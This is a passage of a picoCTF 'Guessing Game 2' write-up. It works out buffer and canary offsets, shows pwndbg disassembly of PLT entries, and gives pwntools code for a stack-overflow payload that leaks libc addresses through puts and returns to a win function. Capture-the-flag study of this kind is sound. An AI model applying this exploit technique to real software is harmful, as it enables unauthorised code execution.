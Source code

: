 ![img](/picoCTF/guessing_game_2/assets/disass_main.png)


- We can calculate the padding_1 from start of winner string is `0xffffd3df - 0xffffd1df = 512 bytes` and padding_2 between canary and ret is `12 bytes`

- Then I need to leak the 2 funtions in libc using puts@plt and address puts@got.plt of each function ,then specify which libc the server used by use libc database [https://libc.rip/](https://libc.rip/).

```
pwndbg> disass 'puts@plt'
Dump of assembler code for function puts@plt:
   0x080484c0 <+0>:     jmp    DWORD PTR ds:0x8049fdc
   0x080484c6 <+6>:     push   0x28
   0x080484cb <+11>:    jmp    0x8048460
End of assembler dump.
pwndbg> disass 'printf@plt'
Dump of assembler code for function printf@plt:
   0x08048470 <+0>:     jmp    DWORD PTR ds:0x8049fc8
   0x08048476 <+6>:     push   0x0
   0x0804847b <+11>:    jmp    0x8048460
End of assembler dump.
```

```python
bypass_rand = -3727
win_addr = 0x0804876e
puts_plt = 0x80484c0
puts_got_plt = 0x8049fdc
printf_got_plt = 0x8049fc8
```

- We use the technique that I have write it in Dynamic ROP bi0s, passing parameter to puts on stack and ret to puts_plt instead of ret to next instruction in main, then we ret to win and do the same with printf.

```python
payload_1 = "a"*512
payload_1 += p32(canary)
payload_1 += "a"*12
payload_1 += p32(puts_plt)
payload_1 += p32(win_addr)
payload_1 += p32(puts_got_plt)
p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
p.recvuntil("Name? ")
p.sendline(payload_1)
s = p.recvline()
s = p.recvline()
s = p.recv(4)
```
